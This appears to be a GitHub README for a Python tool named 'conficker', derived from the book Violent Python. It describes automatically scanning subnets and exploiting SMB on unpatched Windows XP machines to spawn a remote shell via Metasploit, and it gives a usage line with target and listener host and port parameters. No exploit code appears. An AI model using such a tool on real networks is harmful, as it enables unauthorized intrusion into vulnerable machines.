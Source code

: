 conficker
=========

scan and exploit SMB on unpatched Win XP boxes automatically to spawn shell (scans subnets with CIDR notation)

USAGE:
python conficker.py -H <RHOSTS> -l <LHOST> [-p <LPORT> -F <Password File>]

LPORT and Password File parameters are optional. LPORT defaults to 1337.

CREDITS:
Violent Python - for providing the skeleton even though they teach bad coding practice, and debugging is necessary

REQUIREMENTS:
-python2 nmap module
-nmap
-metasploit
